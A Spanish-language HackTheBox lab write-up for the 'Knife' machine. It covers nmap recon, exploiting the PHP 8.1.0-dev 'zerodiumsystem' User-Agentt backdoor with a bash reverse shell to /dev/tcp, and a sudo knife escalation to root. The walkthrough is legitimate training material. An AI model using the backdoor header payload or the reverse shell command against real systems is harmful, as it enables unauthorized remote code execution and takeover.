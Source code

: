 ```yaml
---
layout:   post
title:    "Write Up Knife. "
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,PHP,User-Agent,RCE,Sudoers,Write-Up-Machine,Starting-Point,eJPT] 
---
```

![list](/assets/img/knife/Captura%20de%20pantalla%20(271).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000-sS -n -vvv -Pn 10.10.11.242 -oA allports
```


El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/knife/A-2022-12-14-13-56-40.png){:.lead width="800" height="100" loading="lazy"}


***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,80 -sV -sC 10.10.11.242 -oN target
```


![list](/assets/img/knife/A-2022-12-14-14-06-56.png){:.lead width="800" height="100" loading="lazy"}


El paso anterior no es nesesario ser (root).
{:.note title="Attention"}
***

## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.

![list](/assets/img/knife/A-2022-12-14-14-07-32.png){:.lead width="800" height="100" loading="lazy"}

Pasamos mucho tiempo enumerando directorios y vhosts, pero sin éxito solo, per en el whatweb aparece algo muy curioso que es la version de `PHP/8.1.0-dev` la cual vamos a buscar exploit en google para qver que encontramos.

Lo que encontramos es algo de [User-agent] remote code execution.

[User-agent]:(https://www.exploit-db.com/exploits/49933)

![list](/assets/img/knife/A-2022-12-14-14-26-35.png){:.lead width="800" height="100" loading="lazy"}

Revisando el scrip notamos que injecta una cabecera `User-Agentt": "zerodiumsystem('" + cmd + "');` la cual modificaremos con burpsuite para otrogarnos una reverse shell de la siguiente manera `User-Agentt": "zerodiumsystem('bash -c "exec bash -i >& /dev/tcp/10.10.16.3/443 0>&1"');`.




{:.note}
Nos ponemos a la escucha con nbnetcat en el pueto 443 buscamos la flag de bajos privileguios en el escritorio del usuario james.


![list](/assets/img/knife/A-2022-12-14-14-29-58.png){:.lead width="800" height="100" loading="lazy"}


***
## Explotacion

Siempre es bueno ejecutar `LimEnum` Y `pspy`, para que podamos enumerar más vulnerabilidades que permitan elevar nuestros privilegios al usuario "root".

El primer comando que deberiamos ejecutar ya en este punto es `sudo -l` que nos sirve para ver privileguios de sudoers por lo que encontramos una vulnerabilidad del archivo knife que es el nombre de la maquina que buscando en internet propiamente en [Gtobins] podemos explotar para convertirnos en root.

[Gtobins]:(https://gtfobins.github.io/gtfobins/knife/#sudo)


```shell
sudo knife exec -E 'exec "/bin/sh"'
```

![list](/assets/img/knife/A-2022-12-14-14-36-04.png){:.lead width="800" height="100" loading="lazy"}



Ya podemos, buscar la flag en el escritorio del root.
{:.note}


***

```shell
🎉 Felicitaciones ya has comprometido Knife de HackTheBox 🎉
```
{:.centered}
***

Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}